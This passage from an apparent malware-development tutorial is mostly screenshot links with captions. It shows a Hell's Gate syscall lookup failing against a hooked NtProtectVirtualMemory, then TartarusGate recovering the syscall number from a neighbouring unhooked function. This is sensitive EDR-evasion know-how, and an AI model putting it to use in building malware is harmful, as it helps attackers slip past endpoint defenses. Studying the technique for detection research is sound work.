
• Hell's Gate fails.

Demo 2 - With TartarusGate
MalDevEdr.dll is injected into the Hell's Gate implementation that uses TartarusGate to find an SSN. This implementation is able to successfully retrieve the SSN.
MalDevEdr.dll into the Hell's Gate implementation that utilizes TartarusGate. Furthermore, breakpoints are inserted in several points in the code for further analysis.
• Hitting a breaking point when retrieving the SSN of NtProtectVirtualMemory. Since it's hooked, the syscall's opcodes aren't the same as the usual syscall format.

• The syscall directly below NtProtectVirtualMemory is unhooked and so its SSN is retrieved instead. The variable idx has a value of 1.

• low is 81 (in decimal) and high is 0. Calculating this neighboring syscall's SSN returns 0x51 (in hex) or 81 (in decimal)


• Since the search path was downward, NtProtectVirtualMemory's SSN is 81 - 1 = 80.

• 80 in hex is 0x50, which is the correct SSN for NtProtectVirtualMemory.
